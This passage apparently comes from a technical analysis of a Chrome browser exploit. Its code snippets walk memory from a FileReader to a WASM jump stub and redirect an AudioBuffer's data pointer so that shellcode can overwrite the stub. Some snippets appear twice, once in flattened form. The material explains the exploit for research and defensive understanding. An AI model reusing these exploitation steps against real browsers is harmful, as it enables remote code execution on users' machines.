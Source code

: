 fileReader.onerror = wasmFuncA; let fileReaderPtr = read64(freelist, fileReaderLoaderPtr + BigInt(0x10)) - BigInt(0x68); let vectorPtr = read64(freelist, fileReaderPtr + BigInt(0x28));let registeredEventListenerPtr = read64(freelist, vectorPtr);let eventListenerPtr = read64(freelist, registeredEventListenerPtr);let eventHandlerPtr = read64(freelist, eventListenerPtr + BigInt(0x8));let jsFunctionObjPtr = read64(freelist, eventHandlerPtr + BigInt(0x8)); let jsFunctionPtr = read64(freelist, jsFunctionObjPtr) - BigInt(1);let sharedFuncInfoPtr = read64(freelist, jsFunctionPtr + BigInt(0x18)) - BigInt(1);let wasmExportedFunctionDataPtr = read64(freelist, sharedFuncInfoPtr + BigInt(0x8)) - BigInt(1);let wasmInstancePtr = read64(freelist, wasmExportedFunctionDataPtr + BigInt(0x10)) - BigInt(1); let stubAddrFieldOffset = undefined;switch (majorVersion) { case 77:    		stubAddrFieldOffset = BigInt(0x8) * BigInt(16); break; case 76:    		stubAddrFieldOffset = BigInt(0x8) * BigInt(17); break} let stubAddr = read64(freelist, wasmInstancePtr + stubAddrFieldOffset);




The variable stubAddr contains the address of the page with the stub code that jumps to the JIT compiled WASM function. At this stage it’s sufficient to overwrite it with shellcode. To do so, the exploit uses the function getPartitionPageFreeListHeadEntryBySlotSize() again to find the next free block of 0x20 bytes, which is the size of the structure for the ArrayBuffer object. This object is created when the exploit creates a new audio buffer.





let arrayBufferSize = 0x20;
let arrayBufferPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, arrayBufferSize);
if (!arrayBufferPtr)
	return;
 
let audioBuffer = audioCtx.createBuffer(1, 0x400, 6000);
gcPreventer.push(audioBuffer);




1234567

let arrayBufferSize = 0x20;let arrayBufferPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, arrayBufferSize);if (!arrayBufferPtr) return; let audioBuffer = audioCtx.createBuffer(1, 0x400, 6000);gcPreventer.push(audioBuffer);




The exploit uses arbitrary read/write primitives to get the address of the DataHolder class that contains the raw pointer to the data and size of the audio buffer. The exploit overwrites this pointer with stubAddr and sets a huge size.





let dataHolderPtr = read64(freelist, arrayBufferPtr + BigInt(0x8));
 
write64(freelist, dataHolderPtr + BigInt(0x8), stubAddr);
write64(freelist, dataHolderPtr + BigInt(0x10), BigInt(0xFFFFFFF));




1234

let dataHolderPtr = read64(freelist, arrayBufferPtr + BigInt(0x8)); write64(freelist, dataHolderPtr + BigInt(0x8), stubAddr);write64(freelist, dataHolderPtr + BigInt(0x10), BigInt(0xFFFFFFF));
